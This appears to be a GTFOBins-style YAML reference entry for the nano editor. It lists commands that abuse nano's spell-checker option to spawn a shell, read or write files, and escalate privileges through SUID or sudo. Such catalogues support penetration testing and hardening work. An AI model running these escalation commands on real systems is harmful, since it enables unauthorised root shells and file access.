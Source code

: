 ```yaml
---
functions:
  shell:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        nano -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  sudo:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo nano -s $TF /etc/hosts
        ^T
---
```

